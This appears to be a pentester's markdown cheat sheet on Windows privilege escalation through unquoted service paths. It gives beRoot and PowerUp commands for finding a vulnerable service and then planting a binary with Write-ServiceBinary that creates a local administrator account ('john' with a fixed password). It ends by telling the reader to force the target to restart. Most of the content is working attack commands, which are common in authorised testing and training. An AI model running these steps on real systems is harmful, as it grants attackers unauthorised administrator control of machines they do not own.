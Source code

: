 # Privilege Escalation

## Unquoted Service Paths
### beRoot
```bash
beRoot.exe # identify privesc options
# look for "[!] Path containing spaces without quotes"
```

### PowerUp
The default exploit used by PowerUp's "Write-ServiceBinary" function creates a local administrator. Use the `-Command` to specify a different exploit. If the unquoted path of your target service is `C:\Program Files\Vuln Server\VulnServer.exe`, the string you would use with `Write-ServiceBinary` is `C:\Program Files\Vuln.exe`. 
```bash
# target Terminal 1:
Import-Module .\PowerUp.ps1
Invoke-AllChecks
# look for "[*] Checking for unquoted service paths"
# pick vulnerable service and copy/paste the string in its "AbuseFunction" field
Write-ServiceBinary -Name "Vuln Server" -Path "C:\Program Files\Vuln.exe"
# check your exploit settings and then get the target to restart (e.g., shutdown /r /t 0)
# login to the target using "john" and "Password123!"
```

## Bloodhound
